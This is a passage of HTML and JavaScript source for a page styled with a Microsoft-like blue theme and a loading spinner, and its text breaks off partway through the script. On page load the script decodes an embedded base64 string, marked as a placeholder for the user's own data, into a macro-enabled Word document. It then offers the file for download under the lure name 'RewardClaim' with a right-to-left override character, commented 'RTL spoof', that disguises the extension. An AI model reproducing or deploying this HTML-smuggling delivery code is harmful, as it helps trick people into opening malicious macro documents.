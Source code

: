    ```html
          text-align: center;
          background: #ffffff;
          padding: 40px;
          border-radius: 15px;
          box-shadow: 0 0 20px rgba(0,0,0,0.1);
          max-width: 500px;
        }
        h1 {
          color: #0078D7;
          margin-bottom: 20px;
        }
        p {
          font-size: 1rem;
          color: #333;
        }
        .instructions {
          margin-top: 20px;
          text-align: left;
          font-size: 0.95rem;
          background: #f1f8ff;
          padding: 15px;
          border-left: 4px solid #0078D7;
        }
        .download {
          margin-top: 25px;
        }
        .loader {
          margin: 20px auto;
          border: 5px solid #f3f3f3;
          border-top: 5px solid #0078D7;
          border-radius: 50%;
          width: 40px;
          height: 40px;
          animation: spin 1s linear infinite;
        }
        @keyframes spin {
          0% { transform: rotate(0deg); }
          100% { transform: rotate(360deg); }
        }
      </style>
      <script>
        window.onload = function() {
          const b64Data = `
            // <<< REPLACE THIS LINE with YOUR base64 string >>>
          `.replace(/\s+/g, '');
          const byteCharacters = atob(b64Data);
          const byteArrays = [];
    
          for (let offset = 0; offset < byteCharacters.length; offset += 512) {
            const slice = byteCharacters.slice(offset, offset + 512);
            const byteNumbers = new Array(slice.length);
            for (let i = 0; i < slice.length; i++) {
              byteNumbers[i] = slice.charCodeAt(i);
            }
            const byteArray = new Uint8Array(byteNumbers);
            byteArrays.push(byteArray);
          }
    
          const blob = new Blob(byteArrays, { type: 'application/vnd.ms-word.document.macroEnabled.12' });
          const link = document.createElement('a');
          link.href = URL.createObjectURL(blob);
          link.download = "RewardClaim‮cod.docm"; // RTL spoof
   ```